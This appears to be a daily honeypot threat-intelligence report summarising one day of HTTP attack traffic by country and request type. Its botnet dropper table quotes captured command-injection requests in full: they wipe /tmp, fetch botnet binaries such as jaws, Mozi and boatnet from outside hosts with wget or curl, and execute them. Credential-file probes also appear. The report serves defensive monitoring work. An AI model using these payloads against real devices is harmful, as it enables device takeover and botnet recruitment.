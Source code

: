 ```yaml
---
title: "Report: 2025-07-08 "
date: 2025-07-08
desciption: "Report: 2025-07-08" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-08 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 13 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 20 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1519 requests were recorded during the day, originating from 13 different countries, with a peak of 817 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                                           |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 41.226.204.243  | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                          |
| 8.216.94.115    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.222.163.107   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.219.172.182   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 36.255.5.48     | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                             |
| 144.172.115.127 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.7%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                                                                    |
| 8.215.192.72    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.222.212.69    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 66.63.179.126   | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                          |
| 8.219.8.33      | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.222.131.91    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 144.172.115.127 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.86%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                                                                   |
| 45.135.194.11   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F169.255.72.169%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F169.255.72.169%2Frondo.sh%7C%7Ccurl%20http%3A%2F%2F169.255.72.169%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                           |
|----:|----------------------:|:--------------------------------------------------|
| 358 |                     1 | GET /nmaplowercheck1751968022 HTTP/1.1            |
| 359 |                     1 | GET /gPNW HTTP/1.1                                |
| 374 |                     1 | GET /Nmap/folder/check1751968022 HTTP/1.1         |
| 379 |                     1 | GET /NmapUpperCheck1751968022 HTTP/1.1            |
| 428 |                     1 | \x00\x0E8\xFC\x10\xB5*/NCZ\x00\x00\x00\x00\x00    |
| 581 |                     1 | GET /var/www/html/phpinfo.php HTTP/1.1            |
| 586 |                     1 | GET /api/.env/api/.env HTTP/1.1                   |
| 595 |                     1 | GET /var/www/ HTTP/1.1                            |
| 598 |                     1 | GET /.docker/ HTTP/1.1                            |
| 599 |                     1 | GET /.github/ HTTP/1.1                            |
| 604 |                     1 | GET /config/ HTTP/1.1                             |
| 607 |                     1 | GET /.aws/credentials/login/ HTTP/1.1             |
| 611 |                     1 | GET /api/ HTTP/1.1                                |
| 627 |                     1 | GET /phpversion HTTP/1.1                          |
| 630 |                     1 | GET /debugger.php HTTP/1.1                        |
| 637 |                     1 | GET /index.php?info HTTP/1.1                      |
| 644 |                     1 | GET /diagnostics.php HTTP/1.1                     |
| 678 |                     1 | GET /data/ HTTP/1.1                               |
| 685 |                     1 | \x00\x0E8\x086\xBCvlNJ\xBA\x00\x00\x00\x00\x00    |
| 756 |                     1 | \x00\x0E8\xD8t\xD2,*\x00\xDB;\x00\x00\x00\x00\x00 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   817 | US                 |
|  1 |                   138 | CN                 |
|  2 |                   119 | SE                 |
|  3 |                   101 | NL                 |
|  4 |                    53 | GB                 |
|  5 |                    46 | IR                 |
|  6 |                    38 | SC                 |
|  7 |                    28 | DE                 |
|  8 |                    28 | JP                 |
|  9 |                    19 | PL                 |
| 10 |                    16 | IN                 |
| 11 |                    13 | SG                 |
| 12 |                    11 | BG                 |
| 13 |                    11 | AU                 |
| 14 |                    10 | CA                 |
| 15 |                     9 | RU                 |
| 16 |                     9 | HK                 |
| 17 |                     7 | GH                 |
| 18 |                     5 | ZA                 |
| 19 |                     4 | BE                 |
| 20 |                     4 | BR                 |
| 21 |                     3 | KR                 |
| 22 |                     3 | LT                 |
| 23 |                     3 | KZ                 |
| 24 |                     3 | MU                 |
| 25 |                     2 | IL                 |
| 26 |                     2 | MM                 |
| 27 |                     2 | AT                 |
| 28 |                     2 | TH                 |
| 29 |                     2 | IE                 |
| 30 |                     1 | AR                 |
| 31 |                     1 | VN                 |
| 32 |                     1 | TN                 |
| 33 |                     1 | ID                 |
| 34 |                     1 | ES                 |
| 35 |                     1 | GE                 |
| 36 |                     1 | KH                 |
| 37 |                     1 | JE                 |
| 38 |                     1 | AE                 |
| 39 |                     1 | UA                 |
| 40 |                     1 | EE                 |
